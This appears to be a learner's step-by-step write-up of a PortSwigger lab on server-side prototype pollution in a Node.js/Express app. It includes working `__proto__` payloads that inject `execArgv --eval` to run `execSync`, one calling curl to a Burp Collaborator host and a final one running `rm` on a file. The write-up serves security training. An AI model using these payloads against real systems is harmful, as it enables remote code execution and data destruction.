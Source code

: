 
# Remote code execution via server-side prototype pollution

## This lab is built on Node.js and the Express framework. It is vulnerable to server-side [prototype pollution](https://portswigger.net/web-security/prototype-pollution) because it unsafely merges user-controllable input into a server-side JavaScript object.

Due to the configuration of the server, it's possible to pollute `Object.prototype` in such a way that you can inject arbitrary system commands that are subsequently executed on the server.

To solve the lab:

1. Find a prototype pollution source that you can use to add arbitrary properties to the global `Object.prototype`.
2. Identify a gadget that you can use to inject and execute arbitrary system commands.
3. Trigger remote execution of a command that deletes the file `/home/carlos/morale.txt`.

In this lab, you already have escalated privileges, giving you access to admin functionality. You can log in to your own account with the following credentials: `wiener:peter`

___

step 1

login to account, you will see Billing and Delivery Address click submit
you will get `/my-account/change-address`
send to repeater

![[lab9_post_request_change_address.png]]

step 2

send POST/GET  request  to access `/admin`

![[lab9_admin_panel_but_no_user.png]]

step 3

open admin panel run maintenance jobs
you will see both task completed

![[lab9_run_maintenance_job.png]]
![[lab9_completed_maintenance_job.png]]

step 4

add a new property to the JSON with the name `__proto__`, containing an object with a `json spaces` property

```json
"__proto__": { 
"json spaces":10 
}
```

![[lab9_add_propertied_json_space.png]]

step 5

Try polluting the prototype with a malicious `execArgv` property that adds the `--eval` argument to the spawned child process.
Use this to call the `execSync()` sink, passing in a command that triggers an interaction with the public Burp Collaborator server.

payload_example:
```
"__proto__": { 
"execArgv":[ 
"--eval=require('child_process').execSync('curl https://YOUR-COLLABORATOR-ID.oastify.com')" 
	] 
}
```

burp collaborator  url `59c8tszz0lolf2z00h8wl6mvhmndb4zt.oastify.com`

#payload_child_process
```json
"__proto__": { 
"execArgv":[ 
"--eval=require('child_process').execSync('curl https://59c8tszz0lolf2z00h8wl6mvhmndb4zt.oastify.com')" 
	] 
}
```


![[lab9_add_first_payload_using_burp_collaborator.png]]

step 6

go to the admin panel and trigger the maintenance jobs again.
you have received several DNS interactions

![[lab9_burp_collaborator_several_dns_response.png]]


step 7
replace the `curl` command with a command for deleting Carlos's file
final payload 

```json
"__proto__": { 
"execArgv":[ 
"--eval=require('child_process').execSync('rm /home/carlos/morale.txt')" 
	] 
}
```

![[lab9_add_payload_remove_carlos_account.png]]

step 8


go to the admin panel and trigger the maintenance jobs again.
this time one of the job not completed  and you lab will solved


![[portswigger_wsa/P03_advanced_topics/P24_Prototype-pollution/images/lab9_lab_solved.png]]